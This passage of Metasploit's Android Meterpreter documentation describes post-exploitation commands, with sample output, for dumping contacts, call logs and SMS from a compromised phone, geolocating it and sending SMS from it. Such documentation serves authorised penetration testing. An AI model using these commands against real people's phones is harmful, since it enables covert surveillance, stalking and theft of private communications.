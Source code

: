 ```
```
meterpreter > check_root
[*] Device is not rooted
```

**dump_calllog**

The ```dump_calllog``` command retrieves the call log from the Android device.

**dump_contacts**

```
meterpreter > dump_contacts
[*] Fetching 5 contacts into list
[*] Contacts list saved to: contacts_dump_20160308155744.txt
```

**geolocate**

The ```geolocate``` commands allows you to locate the phone by retrieving the current lat-long
using geolocation.

**wlan_geolocate**

The ```wlan_geolocation``` command allows you to locate the phone by retrieving the current
lat-long using WLAN information. Example:

```
meterpreter > wlan_geolocate
[*] Google indicates the device is within 150 meters of 30.*******,-97.*******.
[*] Google Maps URL:  https://maps.google.com/?q=30.*******,-97.*******
```

**send_sms**

The ```send_sms``` command allows you to send an SMS message. Keep in mind the phone will keep a
copy of it, too.

```
meterpreter > send_sms -d "2674554859" -t "hello"
[+] SMS sent - Transmission successful
```

**sms_dump**

The ```sms_dump``` command allows you to retrieve SMS messages. And save them as a text file.
For example:

```
meterpreter > dump_sms
[*] Fetching 4 sms messages
[*] SMS messages saved to: sms_dump_20160308163212.txt
